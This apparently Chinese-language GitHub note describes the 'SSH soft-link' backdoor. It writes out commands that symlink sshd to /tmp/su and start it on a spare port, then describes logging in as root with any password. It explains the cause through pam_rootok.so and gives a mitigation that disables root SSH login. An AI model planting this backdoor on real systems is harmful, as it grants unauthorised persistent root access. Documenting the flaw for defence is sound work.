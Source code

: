 # ssh软连接漏洞
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=12345;
- 在另一台机器上执行：
root@192.168.1.30 -p 12345
随意输入密码即可登陆
只允许命名为su，命名其他尝试登录都不成功
当前测试的系统(centos7 ,debian8, 只要允许root 远程登陆，基本上都可以适用)，端口也可以换成别的
当前解决办法，禁止root 远程登陆
原因是:基于pam认证的，使用了pam中的su，调用的是/etc/pam.d/su,su的认证使用了pam_rootok.so认证模块是认证你的UID是否为0，他会return pam的结果
- 他先会调用getuid()，如果get的uid为0，他会检查selinux的root是否为0或是否启用selinux下为0，返回认证成功，否则认证失败。源代码122行：https://fossies.org/dox/Linux-PAM-1.3.0/pam__rootok_8c_source.html

```
sed -i 's/^PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config || sed -i 's/^#PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config
sudo /etc/init.d/sshd restart || sudo systemctl restart sshd
root@dh-pc:/etc/pam.d# cat -n  su
     1	#
     2	# The PAM configuration file for the Shadow `su' service
     3	#
     4	
     5	# This allows root to su without passwords (normal operation)
     6	auth       sufficient pam_rootok.so
root@dh-pc:/etc/pam.d# locate pam_rootok.so
/lib/x86_64-linux-gnu/security/pam_rootok.so

root@dh-pc:/etc/pam.d# egrep  -irn pam_rootok.so ./*
./chfn:7:auth		sufficient	pam_rootok.so
./chsh:12:auth		sufficient	pam_rootok.so
./runuser:2:auth		sufficient	pam_rootok.so
./su:6:auth       sufficient pam_rootok.so
./su:13:# permitted earlier by e.g. "sufficient pam_rootok.so").
```

- 通过查找其实不单单是su存在pam_rootok,只要满足了上述的三个条件都可以进行"任意密码登录"。
